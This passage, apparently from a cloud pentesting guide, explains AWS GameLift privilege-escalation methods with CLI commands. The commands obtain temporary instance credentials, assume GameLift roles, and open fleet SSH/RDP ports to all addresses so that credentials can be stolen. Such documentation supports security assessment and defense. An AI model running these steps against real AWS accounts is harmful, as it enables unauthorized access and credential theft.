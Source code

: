 Finally, use the credentials to connect to the instance via SSH or RDP and assume Gamelift role using assume-role command on the instance:

```bash
aws sts assume-role --role-arn AWS_ROLE_ARN --role-session-name PrivEscExample
```

If you need more details on how to connect to a fleet, read [here](https://docs.aws.amazon.com/gamelift/latest/developerguide/fleets-remote-access.html).

In addition to `get-instance-access` command, you can use a `get-compute-access` as long as the created fleet is based on a build with SDK version 5. Just use an instance ID for `--compute-name` option:

```bash
export FLEET_ID=fleet-d478517d-10df-4923-892f-d765cd6ec54e
export INSTANCE_ID=i-09f1b3e73d700767
aws gamelift get-compute-access --fleet-id $FLEET_ID --compute-name $INSTANCE_ID 
```

It will return set of temporary credentials that you can use to access credentials via `ssm start-session` command:

```bash
export AWS_ACCESS_KEY_ID=
export AWS_SECRET_ACCESS_KEY=
export AWS_SESSION_TOKEN=

aws ssm start-session --target $INSTANCE_ID
```

**Potential Impact:** Direct privilege escalation to any Gamelift role.

### gamelift:UpdateFleetPortSettings, gamelift:GetInstanceAccess | gamelift:GetComputeAccess

Providing that you do not have either `iam:PassRole` or `gamelift:CreateFleet` permission, you still can steal temporary credentials from an active fleet that has a Gamelift role attached..

One of the ways to obtain credentials from an active fleet is to connect via SSH.

You can do it via `get-instance-access` as described in the previous privilege escalation method. Unless you are lucky to find a developer or debugging fleet that already has SSH or RDP ports open, you will need to modify the fleet’s port settings to make it accessible for connection.

To do so, you need to run `update-fleet-port-settings` command against fleet:

```bash
export FLEET_ID=fleet-d478517d-10df-4923-892f-d765cd6ec54e
aws gamelift update-fleet-port-settings 
		--fleet-id $FLEET_ID
		--inbound-permission-authorizations='[{"FromPort":22,"ToPort": 22,"IpRange": "0.0.0.0/0", "Protocol": "TCP"}, {"FromPort":3389,"ToPort": 3389,"IpRange": "0.0.0.0/0", "Protocol": "TCP"}]'
```

Once the port is open, obtain credentials via `get-instance-access` and use it to connect (see previous method for more details):

```bash
export INSTANCE_ID=i-09f1b3e73d700767
aws gamelift get-instance-access --fleet-id $FLEET_ID --instance-id $INSTANCE_ID
```
